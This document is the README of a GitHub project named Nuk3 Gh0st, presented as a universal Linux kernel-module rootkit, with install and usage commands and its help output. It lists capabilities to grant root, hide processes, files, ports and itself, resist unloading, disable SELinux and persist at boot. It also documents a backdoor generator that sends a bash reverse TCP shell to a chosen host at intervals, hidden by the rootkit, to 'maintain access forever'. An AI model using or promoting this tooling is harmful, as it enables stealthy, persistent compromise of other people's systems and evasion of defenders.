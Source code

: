 <img src="https://github.com/JuanSchallibaum/Nuk3Gh0st/blob/master/logo.jpg" width="300" height="300" />

# Nuk3 Gh0st

Universal Linux LKM rootkit, designed to work in any kernel version and both architectures (x86 and x64).

## Why Nuk3 Gh0st?

- Is the most stable Linux LKM rootkit, working in any kernel version from 2.6.32 to 4.17.9.
- Tested on 15 different distros with different kernel versions.
- Can enable rootkit at startup, supporting sysv-init, upstart and systemd.
- Temporaly disables SELINUX if it is present, to load rootkit and enable it at startup withouth problems.
- Can hide ports TCP and UDP of IPv4 and even IPv6.
- Hides itself from be watched trough lsmod, and hides their own files during rootkit loading.
- Easy to use, easy to build and compiles cleanly withouth any warning.

## Functionality

The rootkit can do the following:

- Grant root privileges to a userland process
- Hide process by PID
- Unhide a previously hidden process by PID
- Hide files or directories by their name
- Unhide previously hidden files or directories
- Hide TCP ports (for IPv4 and IPv6)
- Unhide previously hidden TCP ports
- Hide UDP ports (for IPv4 and IPv6)
- Unhide previously hidden UDP ports
- Hide itself
- Unhide itself
- Protect against being unloaded by the user
- Disable the unload protection

## Tested On

|           Distro            |          Kernel         |    Arch    |
|-----------------------------|-------------------------|------------|
| Kali Linux (Rolling)        |  4.17.9                 |   x86_64   |
| Kali Linux (Rolling)        |  4.16.18                |   x86_64   |
| Kali Linux (Rolling)        |  4.14.0-kali3-amd64     |   x86_64   |
| Ubuntu 16.04.4 LTS          |  4.13.0-36-generic      |   x86_64   |
| Fedora 26                   |  4.11.8-300.fc26        |   x86_64   |
| Ubuntu 17.04                |  4.10.0-19-generic      |   x86_64   |
| Debian 9                    |  4.9.0-7-686            |   i686     |
| Kali Linux (Rolling)        |  4.4.142                |   x86_64   |
| Kali Linux (Rolling)        |  3.16.57                |   x86_64   |
| Linux Mint 17               |  3.13.0-37-generic      |   x86_64   |
| Wifislax                    |  3.12.36                |   i686     |
| Fedora 19                   |  3.9.5-301.fc19         |   x86_64   |
| Ubuntu 12.10                |  3.5.0-17-generic       |   i686     |
| Lihuen 5.10 (Debian based)  |  3.2.0-4-amd64          |   x86_64   |
| Ubuntu 10.04.4 LTS          |  2.6.32-38-generic-pae  |   i686     |

## Pre requirements

Install a compiler, Linux headers and all other things required for us to build the rootkit:

#### On Debian based:
```sh
apt-get update
apt-get install linux-headers-$(uname -r)
apt-get install build-essential
```

#### On Red Hat based:
```sh
yum update
yum install linux-headers-$(uname -r)
yum install build-essential
```

## Install
```sh
make
make install
```

## Use

Load rootkit:

```sh
load-nuk3gh0st
```

Use rootkit:

```sh
nuk3gh0st --help


   $$    $$            $$         $$$$$$        
   $$$   $$            $$     $$ $$    $$       
   $$$$  $$  $$    $$  $$    $$        $$       
   $$ $$ $$  $$    $$  $$   $$     $$$$$        
   $$  $$$$  $$    $$  $$$$$$         $$        
   $$   $$$  $$    $$  $$   $$   $$    $$       
   $$    $$   $$$$$$   $$    $$   $$$$$$        

    $$$$$$  $$        $$$$$$             $$     
   $$    $$ $$       $$$   $$            $$     
   $$       $$$$$$$  $$$$  $$  $$$$$$$ $$$$$$   
   $$  $$$$ $$    $$ $$ $$ $$ $$         $$     
   $$    $$ $$    $$ $$  $$$$  $$$$$$    $$     
   $$    $$ $$    $$ $$   $$$       $$   $$ $$  
    $$$$$$  $$    $$  $$$$$$  $$$$$$$    $$$$   

                   By Juan Schällibaum          

   Usage: nuk3gh0st [OPTION]...

   Options:
     --root-shell                 Grants you root shell access.
     --hide-pid=PID               Hides the specified PID.
     --unhide-pid=PID             Unhides the specified PID.
     --hide-file=FILENAME         Hides the specified FILENAME globally.
                                  Must be a filename without any path.
     --unhide-file=FILENAME       Unhides the specified FILENAME.
     --hide-tcp-port=PORT         Hides the specified tcp PORT.
     --unhide-tcp-port=PORT       Unhides the specified tcp PORT.
     --hide-tcp6-port=PORT        Hides the specified tcp6 PORT.
     --unhide-tcp6-port=PORT      Unhides the specified tcp6 PORT.
     --hide-udp-port=PORT         Hides the specified udp PORT.
     --unhide-udp-port=PORT       Unhides the specified udp PORT.
     --hide-udp6-port=PORT        Hides the specified udp6 PORT.
     --unhide-udp6-port=PORT      Unhides the specified udp6 PORT.
     --hide                       Hides the rootkit LKM.
     --unhide                     Unhides the rootkit LKM.
     --help                       Print this help message.
     --protect                    Protects the rootkit from rmmod.
     --unprotect                  Disables the rmmod protection.
```

Unload rootkit:

```sh
unload-nuk3gh0st
```

## Special functionality

Enabling rootkit at system startup:

```sh
startup-nuk3gh0st
```

Disabling rootkit at system startup:

```sh
rmstartup-nuk3gh0st
```

## Backdoor Generator
```sh

 \______   \_____    ____ |  | __ __| _/____   ___________     
  |    |  _/\__  \ _/ ___\|  |/ // __ |/  _ \ /  _ \_  __ \    
  |    |   \ / __ \  \___|    </ /_/ (  <_> |  <_> )  | \/    
  |______  /(____  /\___  >__|_ \____ |\____/ \____/|__|       
         \/      \/     \/     \/    \/                        
                                            __                 
    ____   ____   ____   ________________ _/  |_  ___________  
   / ___\_/ __ \ /    \_/ __ \_  __ \__  \   __\/  _ \_  __ \ 
  / /_/  >  ___/|   |  \  ___/|  | \// __ \|  | (  <_> )  | \/ 
  \___  / \___  >___|  /\___  >__|  (____  /__|  \____/|__|    
 /_____/      \/     \/     \/           \/                    
                                                               
    Generates a backdoor that sends bash reverse TCP shell	
        every S seconds to H host, listening on P port         
           and running it on startup, hidding itself           
           	   with Nuk3gh0st LKM rootkit                   
   								
   		        In other words...			
   	    YOU CAN MANTAIN ACCESS FOREVER AND EVER!   		
                                                               
                                                               
 Usage:                                                            
                                                                   
    backdoor-generator --host H --port P --sleep S                 
		Genetares a backdoor that sends bash reverse TCP shell   
		every S seconds to H host listening on P port, and       
 		running it on startup.                                   
		                                                         
    backdoor-generator --remove                                    
		Remove previously generated backdoor from startup        
		and their files.                                         
		                                                         
    backdoor-generator --help                                      
		Show this menu.                                          
```

## Uninstall
```sh
make uninstall
```

## License
This project is licensed under [GPLv2](LICENSE).
